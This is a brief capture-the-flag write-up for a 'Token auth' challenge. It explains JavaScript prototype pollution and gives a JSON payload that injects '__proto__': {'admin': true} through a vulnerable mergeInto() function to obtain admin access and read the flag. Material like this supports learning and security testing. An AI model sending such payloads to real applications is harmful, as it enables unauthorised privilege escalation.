 <font size = '4'>
<p align = 'center'>
<b>
Break the Syntax CTS - Token auth Writeup 
</b>
</p>
</font>

<br>
<font size = '3'>

<b>Challenge Description:</b><br>

JWT is very common way to handle authorization. It has to be secure.

<br>

<b>Exploitation:</b><br>

Prototype Pollution:

Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.

First register a user:

```python
{
  "username": "testuser",
  "password": "test"
}
```

The mergeInto() function is vulnerable to prototype pollution.

```python
{
  "username": {
    "__proto__": {
      "admin": true
    }
  },
  "password": "test"
}
```

The mergeInto function merges this into the target object, setting Object.prototype.admin to true.

Now we can just GET /flag, since we get granted admin access.